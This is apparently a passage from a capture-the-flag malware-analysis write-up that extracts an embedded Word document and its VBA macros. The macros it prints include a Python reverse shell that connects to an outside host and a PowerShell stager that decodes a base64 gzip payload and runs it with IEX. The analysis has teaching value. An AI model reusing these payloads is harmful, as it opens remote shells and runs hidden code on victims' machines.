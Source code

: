 And even better with hachoir :

```bash
$ hachoir-subfile unxored/as8ja8sj3d.doc.6.unxored

[+] Start search on 106483 bytes (104.0 KB)

[+] File at 46602 size=58880 (57.5 KB): Microsoft Office document => out/file-0001.doc
[+] File at 52636 size=3104 (3104 bytes): ZIP archive => out/file-0002.zip

[+] End of search -- offset=106483 (104.0 KB)
```

So we just got a new doc file : 

```
out/file-0001.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.1, Code page: 1252, Author: Windows User, Template: Normal.dotm, Last Saved By: Windows User, Revision Number: 10, Name of Creating Application: Microsoft Office Word, Total Editing Time: 02:46:00, Create Time/Date: Sat Mar 11 14:37:00 2017, Last Saved Time/Date: Fri May 12 18:49:00 2017, Number of Pages: 1, Number of Words: 0, Number of Characters: 0, Security: 0out/file-0001.doc: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.1, Code page: 1252, Author: Windows User, Template: Normal.dotm, Last Saved By: Windows User, Revision Number: 10, Name of Creating Application: Microsoft Office Word, Total Editing Time: 02:46:00, Create Time/Date: Sat Mar 11 14:37:00 2017, Last Saved Time/Date: Fri May 12 18:49:00 2017, Number of Pages: 1, Number of Words: 0, Number of Characters: 0, Security: 0
```

# Second macro

So, here we go again :

```bash
$ olevba -c file-0001.doc > file-0001.macro.vbs
```

What do we have in this macro :

 * a reverse shell 

```vbnet
Sub C64()
    On Error Resume Next
    Err.Clear
    scriptToRun = "do shell script ""python -c 'import urllib2,socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\""http://reversing.sg/fl4g.txt\"",80)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\""/bin/sh\"",\""-i\""]);' &"""
    res = MacScript(scriptToRun)
End Sub
```

 * Some base64 encoded gzip stuff :

```vbnet
   lStr = lStr & "powershell -ep bypass -C ""$data = [System.Convert]::FromBase64String('H4sIAAAAAAAEAEWPYUvDMBCGvwv+h1EKS8DFoU5wozBsN+eQFZ1MaGehS88ZSRNIb12z0f9u0KEf733ufY7zj1kvawOfpK/QIJsorguhtu/DYV5xIdgD4BKNS0gaalWDQYemRpf3eQW3NyfWzWcvfR7p+ul6LotyZfmV3CV2cEjsXbSa6Dopm08392H2HHQppaPzM/+oWey1QfoYs0gY4KiNdXJ3MdwZAwr/UvK7vybjbEwv28A7ddcfMt8ybNBznCxg34s3X67SWdoKoWQLQPYGm1AKZ6Ms0nsldV5MhQTi/zx+0fnX0tE31FlVnA0BAAA=');$ms=New-Object System.IO.MemoryStream;$"
   lStr = lStr & "ms.Write($data,0,$data.Length);$ms.Seek(0,0)|Out-Null;$cs = New-Object System.IO.Compression.GZipStr"
   lStr = lStr & "eam($ms,[System.IO.Compression.CompressionMode]::Decompress);$sr=New-Object System.IO.StreamReader($"
   lStr = lStr & "cs);$t=$sr.readtoend();IEX $t;"""
```
